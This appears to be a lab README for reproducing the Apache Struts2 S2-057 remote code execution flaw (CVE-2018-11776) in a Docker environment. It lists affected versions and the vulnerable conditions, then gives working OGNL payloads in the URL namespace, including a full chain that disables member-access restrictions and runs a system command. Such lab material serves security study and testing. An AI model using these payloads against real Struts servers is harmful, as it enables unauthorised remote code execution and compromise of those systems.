


# Struts2 S2-057 Remote Code Execution Vulnerablity (CVE-2018-11776)

Affected Version: <= Struts 2.3.34, Struts 2.5.16

Details:

 - https://cwiki.apache.org/confluence/display/WW/S2-057
 - https://lgtm.com/blog/apache_struts_CVE-2018-11776
 - https://xz.aliyun.com/t/2618
 - https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg

## Setup

Start the Struts 2.3.34 environment:

```
docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/showcase/` and you will see the Struts2 test page.

## Exploit

S2-057 requires the following conditions:

  - `alwaysSelectFullNamespace` is true
  - The action element does not have the namespace attribute set, or a wildcard is used

The namespace will be passed by the user from uri and parsed as an OGNL expression, eventually cause remote code execution vulnerablity.

Payload:

```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```



It can be seen that the result of 233*233 has been returned in the Location header.

Use payload from [S2-057 vulnerability analysis and POC](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg):

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

Result:


